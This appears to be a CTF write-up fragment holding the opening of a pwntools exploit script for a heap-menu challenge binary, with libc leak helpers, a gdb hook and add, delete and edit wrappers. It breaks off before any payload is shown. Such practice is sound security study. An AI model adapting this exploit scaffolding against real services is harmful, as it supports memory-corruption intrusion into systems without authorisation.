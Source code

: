 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)

def delete(index):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))

def edit(index,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(index))
    p.recvuntil('CONTENT: ')
```